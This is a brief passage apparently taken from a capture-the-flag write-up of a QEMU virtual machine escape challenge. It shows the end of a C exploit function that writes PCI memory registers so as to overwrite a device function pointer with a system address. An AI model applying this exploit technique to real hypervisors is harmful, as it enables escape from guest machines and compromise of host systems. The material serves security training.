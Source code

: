 ```c
    pcimem_write(0x90, 'd', 18);
    //set cmd read
    //read sys_addr to HitbState->enc function pointer
    pcimem_write(0x98, 'd', 1 | 4);
    sleep(1);

    return 0;
}

```
![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/VMEscape/BabyQemu/index_files/2d7a730f-7bb6-424f-ab64-9c1836826315.jpg)